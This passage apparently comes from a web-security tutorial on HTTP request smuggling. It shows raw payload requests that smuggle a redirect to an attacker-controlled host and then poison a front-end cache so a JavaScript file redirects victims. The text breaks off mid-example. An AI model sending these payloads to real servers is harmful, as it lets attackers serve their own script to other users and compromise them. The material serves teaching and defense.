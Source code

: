 HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

This behavior is normally considered harmless, but it can be exploited in a request smuggling attack to redirect other users to an external domain. For example:

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

The smuggled request will trigger a redirect to the attacker's website, which will affect the next user's request that is processed by the back-end server. For example:

```
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

Here, the user's request was for a JavaScript file that was imported by a page on the web site. The attacker can fully compromise the victim user by returning their own JavaScript in the response.

## Using HTTP request smuggling to perform web cache poisoning

If any part of the front-end infrastructure performs caching of content (generally for performance reasons), then it might be possible to poison the cache with the off-site redirect response. This will make the attack persistent, affecting any user who subsequently requests the affected URL.

In this variant, the attacker sends all of the following to the front-end server:

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 59
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /static/include.js HTTP/1.1
Host: vulnerable-website.com
```

The smuggled request reaches the back-end server, which responds as before with the off-site redirect. The front-end server caches this response against what it believes is the URL in the second request, which is /static/include.js:

```
GET /static/include.js HTTP/1.1
Host: vulnerable-website.com
